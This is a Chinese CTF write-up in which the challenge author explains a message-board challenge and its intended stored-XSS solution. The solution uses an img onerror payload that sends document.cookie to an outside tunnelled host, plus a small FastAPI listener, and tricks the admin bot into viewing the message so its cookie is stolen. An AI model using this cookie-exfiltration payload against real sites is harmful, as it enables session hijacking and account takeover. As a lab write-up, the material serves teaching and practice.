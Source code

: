 # 免费的留言板

- 出题人: pyy

- 验题人: pyy

## 题目描述

免费提示:

- 咦, 这个题的中文名是不是翻译错了?

- ezSQL的flag仿佛名显玄机

  36分提示:

- 这个留言板怎么还可以发图片和按钮的?

- 登录界面好像还藏了一个管理员界面的按钮......藏哪了?

- 一切还是要等拿到管理员账户和密码后再说.......

## 出题思路

Java课要写个留言板, 于是那时候整了一个, 然后玩的时候发现可以搞一个经典的xss盗号。后来弄弄就有了这道题。(虽然前端也重写了, 后端也重写了, 还写了个amis前端热部署, 总之就是全重写了一遍) 实际上这题的前端是从数据库里动态生成的(amis一段json就能搞定, 至于效率, 管他呢), 所以原本是有另外一个钓鱼解法的(把前端页面的登录api改成自己的服务器, 这样就可以拿到所有登陆的人的用户名和密码), 但是怕有人瞎改(不瞎改就怪了, 谁知道这里面该写什么), 所以加了个复杂密码的验证, 相当于ban掉了。

## 解法

### 预期解法

(说起来, 你们看到别人在留言板里发图片和按钮而没见着传图片啥的, 不觉得奇怪吗?)

既然有人发按钮了, 那一定是有xss。(然后拿到管理员cookie就可以了)

先试着搞一波简单的script标签:

`<script>alert(1)<\script>`

![image-20220507080003099](readme.assets/image-20220507080003099.png)

![image-20220507080240490](readme.assets/image-20220507080240490.png)

发现没有显示出来但f12里有(说明没有被套标签), 但同时也没有弹框。(由于这个script是后来生成的而不是一开始就有的, 所以不会被执行。就像你f12往里加script标签一样。不同的是, 如果你加的是`<img src='' onerror=alert(1)>`, onerror里的代码就会被执行。)

```python
import fastapi
import uvicorn
app=fastapi.FastAPI()
if __name__=="__main__":
  uvicorn.run("pyy:app",host="0.0.0.0",port=60080)
```

fastapi起一个服务器, 反正只需要log功能所以啥也不用写。之后再开一个内网穿透, 这样cookie可以打过来。

然后用onerror写一个img标签进去, 然后src为我们的网站+get传cookie。

`<img src="" onerror='new Image().src="http://2pcohv0e.dnat.tech/?"+document.cookie'>`

![image-20220507084852129](readme.assets/image-20220507084852129.png)

收到了, 虽然里面有robot题的cookie, 接下来就是钓管理员上钩。(我钓我自己还有不成功的吗?)

首先交个举报, 说这条留言有问题。这样管理员就会来看这条留言。然后我们就拿到了cookie。

![image-20220507085131525](readme.assets/image-20220507085131525.png)

![image-20220507085215577](readme.assets/image-20220507085215577.png)

这样就上钩了。

![image-20220507085247788](readme.assets/image-20220507085247788.png)

然后拿着密码去登录:

![image-20220507085330814](readme.assets/image-20220507085330814.png)

发现多出来一个按钮, 那就进去看看吧。

![image-20220507085319302](readme.assets/image-20220507085319302.png)